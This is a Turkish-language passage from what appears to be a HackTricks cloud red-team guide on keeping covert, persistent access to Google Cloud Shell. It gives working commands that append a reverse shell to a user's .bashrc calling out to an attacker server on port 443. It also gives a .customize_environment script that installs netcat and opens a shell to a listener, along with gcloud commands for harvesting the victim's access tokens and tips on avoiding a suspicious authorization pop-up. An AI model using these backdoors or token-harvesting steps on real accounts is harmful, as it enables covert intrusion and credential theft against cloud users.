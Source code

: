 # GCP - Cloud Shell Kalıcılığı

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)'a **PR göndererek paylaşın**
*
*
*
* &#x20;github repos.

</details>

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Kalıcı Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/), tarayıcınızdan doğrudan bulut kaynaklarınıza komut satırı erişimi sağlar ve herhangi bir ilişkili maliyet olmadan kullanılabilir.

Google'ın Cloud Shell'ine **web konsolu**ndan veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsol, saldırganlar için bazı ilginç yeteneklere sahiptir:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tam yetkilendirilmiş bir Cloud Shell örneğine erişebilir (Hizmet Hesapları, hatta orgun sahipleri bile).
2. Söz konusu örnek, **en az 120 gün boyunca ana dizinini koruyacaktır** eğer hiçbir etkinlik olmazsa.
3. Bu örneğin etkinliğini **bir kuruluşun izlemesi için yetenek yoktur**.

Bu temel olarak, bir saldırganın kullanıcının ana dizinine bir arka kapı yerleştirebileceği ve kullanıcının en az 120 günde bir GC Shell'e bağlandığı sürece arka kapının hayatta kalacağı ve saldırganın her çalıştırıldığında bir kabuk alacağı anlamına gelir:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev klasöründe var olan bir başka dosya olan **`.customize_environment`** adlı bir dosya, varsa, kullanıcının **bulut kabuğuna her eriştiğinde** (önceki teknikte olduğu gibi) **çalıştırılacaktır**. Kalıcılığı sağlamak için önceki arka kapıyı veya aşağıdaki gibi birini ekleyin ve kullanıcı "sık sık" bulut kabuğunu kullandığı sürece kalıcılığı sürdürün:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Önemli bir not olarak belirtmek gerekir ki, **kimlik doğrulama gerektiren bir işlem ilk kez gerçekleştirildiğinde**, kullanıcının tarayıcısında bir yetkilendirme penceresi açılır. Bu pencere, komut çalışmadan önce kabul edilmelidir. Eğer beklenmedik bir pencere açılırsa, şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, (saldırgan olarak) cloud shell'den `gcloud projects list` komutunu çalıştırırken tarayıcının kullanıcı oturumunda görünen pop-up'tır:


<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ancak, eğer kullanıcı aktif olarak cloudshell'i kullanmışsa, pop-up görünmeyecek ve kullanıcının **token'larını toplayabilirsiniz**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temel olarak, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarını eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud Shell'in IP adresini size söyler)

Ancak daha fazla bilgiyi [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) adresinde bulabilirsiniz.

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)'a PR göndererek paylaşın
*
*
* &#x20;github repos.

</details>
